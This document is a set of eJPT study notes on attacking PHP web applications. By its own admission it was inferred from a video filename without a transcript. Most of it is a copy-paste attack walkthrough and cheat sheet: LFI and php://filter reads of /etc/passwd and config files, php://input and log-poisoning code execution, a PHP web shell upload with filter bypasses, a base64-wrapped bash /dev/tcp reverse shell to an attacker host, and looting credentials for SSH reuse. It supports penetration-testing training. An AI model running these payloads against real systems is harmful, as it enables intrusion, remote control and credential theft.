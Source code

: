 # 09 - Targeting PHP (eJPT) — Study Notes

Note: No transcript was provided. The following summary is inferred conservatively from the filename “09 - Targeting PHP.mp4” within the “01-LinuxExploitation” folder. It reflects common eJPT-relevant PHP attack techniques: detection, LFI/RFI, wrappers, log poisoning, file upload to web shell, and achieving a reverse shell on Linux.

## What the video covers (Introduction / big picture)
- How to recognize and target PHP-based web applications during Linux web exploitation.
- Enumerating PHP endpoints and parameters.
- Exploiting common PHP misconfigurations:
  - Local File Inclusion (LFI) and PHP stream wrappers (php://filter, php://input).
  - LFI to Remote Code Execution (RCE) via log poisoning and /proc/self/environ.
  - File upload bypasses to gain a PHP web shell.
- Converting code execution into a stable reverse shell.
- Pulling credentials from source/config files to facilitate lateral movement or SSH reuse.

## Flow (ordered)
1. Identify PHP on the target and enumerate .php endpoints and parameters.
2. Test for LFI and read source using php://filter to discover include patterns and creds.
3. Turn LFI into RCE via:
   - php://input (if executable include).
   - Log poisoning (/var/log/apache2/access.log, /var/log/httpd/access_log, /var/log/nginx/access.log).
   - Optionally /proc/self/environ.
4. If an upload function exists, bypass filters to upload a PHP web shell and execute commands.
5. From command execution, trigger a reverse shell and stabilize your TTY.
6. Loot sensitive files (config.php, wp-config.php, .env) for credentials and pivot.

## Tools highlighted
- curl — quick HTTP probing, header tricks, POST/GET payloads.
- ffuf or gobuster — discover PHP files and upload directories.
- Burp Suite — intercept/modify file uploads and parameters.
- nc (netcat) — reverse shell listener.
- base64 — safely deliver shell commands without special chars.
- exiftool (optional) — image polyglots for upload bypasses.
- python3 — TTY upgrade and URL encoding helpers.

## Typical command walkthrough (detailed, copy-paste friendly)

Set target and basics:
```bash
export TARGET="http://TARGET_IP_OR_HOST"
export LHOST="YOUR_ATTACK_IP"
export LPORT="4444"
```

1) Detect PHP and enumerate
```bash
# Check headers and hints
curl -sI "$TARGET" | head -n 20

# Discover .php endpoints
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt \
    -u "$TARGET/FUZZ" -e .php,.txt,.bak,.old \
    -mc 200,204,301,302,307,401,403

# Optional: parameter discovery on a known PHP page
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt \
    -u "$TARGET/index.php?FUZZ=test" -fs 0
```

2) LFI probes
```bash
# Common parameter names to try manually if found in the app:
# page, file, template, view, inc, include, lang, path

# Basic LFI (if raw includes are used)
curl -s "$TARGET/index.php?page=../../../../etc/passwd"

# If app appends ".php" internally, use filter to read PHP source safely
curl -s "$TARGET/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d | sed -n '1,120p'

# Try reading a config file with filter
curl -s "$TARGET/index.php?page=php://filter/convert.base64-encode/resource=../config.php" | base64 -d
```

3) LFI → RCE via php://input (works if include executes PHP from stream)
```bash
# If ?page=php://input is included and parsed, this executes 'id'
curl -s -X POST "$TARGET/index.php?page=php://input" \
    --data "<?php system('id'); ?>"
```

4) LFI → RCE via log poisoning
```bash
# Inject PHP into the access log via User-Agent
curl -s -A "<?php system(\$_GET['cmd']); ?>" "$TARGET/"

# Try including different web server logs via the LFI parameter
curl -s "$TARGET/index.php?page=/var/log/apache2/access.log&cmd=id"
curl -s "$TARGET/index.php?page=/var/log/httpd/access_log&cmd=id"
curl -s "$TARGET/index.php?page=/var/log/nginx/access.log&cmd=id"

# Optional: /proc/self/environ approach (works in specific setups)
curl -s -A "<?php system(\$_GET['cmd']); ?>" "$TARGET/"
curl -s "$TARGET/index.php?page=/proc/self/environ&cmd=id"
```

5) Get a reverse shell from RCE
```bash
# Listener on your box
nc -lvnp "$LPORT"

# Safer command delivery using base64 via POST (avoids URL quoting issues)
RS=$(printf 'bash -c "bash -i >& /dev/tcp/%s/%s 0>&1"' "$LHOST" "$LPORT" | base64 -w0)

# Example using log inclusion endpoint (adjust the 'page=' path accordingly)
curl -s -X POST "$TARGET/index.php?page=/var/log/apache2/access.log" \
    --data-urlencode "cmd=echo $RS | base64 -d | bash"
```

6) Upgrade to a stable TTY
```bash
# In the reverse shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press Ctrl+Z to background, then on your host:
stty raw -echo; fg
reset
export TERM=xterm-256color
stty rows 40 cols 120
```

7) File upload to PHP web shell (if an upload feature exists)
```bash
# Minimal command-exec web shell
printf '<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>' > shell.php

# Try direct PHP first; if blocked, try .phtml/.php5 or polyglot tricks
# Example: sending via curl to an upload endpoint (adjust field and path)
curl -s -F "file=@shell.php" "$TARGET/upload.php"

# Locate upload directory (common: /uploads, /files, /images, /assets/uploads)
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt \
    -u "$TARGET/FUZZ" -mc 200,403 -recursion -e .php,.phtml,.php5

# Execute command via web shell
curl -s "$TARGET/uploads/shell.php?cmd=id"

# Trigger reverse shell via POST for easy quoting
curl -s -X POST "$TARGET/uploads/shell.php" \
    --data-urlencode "cmd=echo $RS | base64 -d | bash"
```

8) Loot credentials and sensitive files
```bash
# From RCE/webshell/LFI via php://filter, look for:
# - /var/www/html/config.php
# - /var/www/html/wp-config.php
# - /var/www/html/.env
# - framework configs (Laravel: .env, CodeIgniter: application/config/database.php)

# Example LFI read with php://filter
curl -s "$TARGET/index.php?page=php://filter/convert.base64-encode/resource=../wp-config.php" | base64 -d
```

## Practical tips
- PHP detection: index.php in URLs, X-Powered-By headers, or PHP session cookies (PHPSESSID).
- For LFI, test multiple parameter names and try both raw traversal and php://filter base64 reads.
- If the app appends “.php” to includes, target resource without extension or use php://filter/resource=name (no .php needed).
- Use base64 to avoid quoting headaches in RCE payloads.
- Try multiple log paths for log poisoning; Apache vs. httpd vs. nginx.
- File uploads:
  - Extensions to try: .php, .phtml, .php5, .phar
  - Double extensions: file.php.jpg
  - Content-type spoofing via Burp; add minimal image header (e.g., GIF89a;) for naïve checks.
- After initial RCE, print id and whoami to confirm web user (www-data/apache/nginx). Use that to reason about file permissions and log paths.
- Harvest credentials from config files; test credential reuse for SSH.

## Minimal cheat sheet (one-screen flow)
```bash
# Setup
export TARGET="http://TARGET"; export LHOST="ATTACK_IP"; export LPORT="4444"

# Enum PHP
curl -sI "$TARGET" | head
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u "$TARGET/FUZZ" -e .php -mc 200,403

# LFI tests
curl -s "$TARGET/index.php?page=../../../../etc/passwd"
curl -s "$TARGET/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d | head

# php://input RCE
curl -s -X POST "$TARGET/index.php?page=php://input" --data "<?php system('id'); ?>"

# Log poisoning RCE
curl -s -A "<?php system(\$_GET['cmd']); ?>" "$TARGET/"
curl -s "$TARGET/index.php?page=/var/log/apache2/access.log&cmd=id"

# Reverse shell
nc -lvnp "$LPORT"
RS=$(printf 'bash -c "bash -i >& /dev/tcp/%s/%s 0>&1"' "$LHOST" "$LPORT" | base64 -w0)
curl -s -X POST "$TARGET/index.php?page=/var/log/apache2/access.log" --data-urlencode "cmd=echo $RS | base64 -d | bash"

# TTY upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'; ^Z; stty raw -echo; fg; reset

# Upload shell (if available)
printf '<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>' > shell.php
curl -s -F "file=@shell.php" "$TARGET/upload.php"
curl -s "$TARGET/uploads/shell.php?cmd=id"
```

## Summary
- Targeting PHP on Linux typically centers on enumerating .php resources, probing include parameters for LFI, and leveraging PHP stream wrappers (php://filter for code disclosure; php://input for RCE) to escalate to command execution.
- Where LFI exists without direct execution, log poisoning and /proc/self/environ can often bridge to RCE.
- File upload features can yield a straightforward PHP web shell; evade filters with alternative extensions and content tricks.
- Once you achieve code execution, deliver a reverse shell (base64 method is robust), stabilize your TTY, and loot application configs for credentials to further your compromise.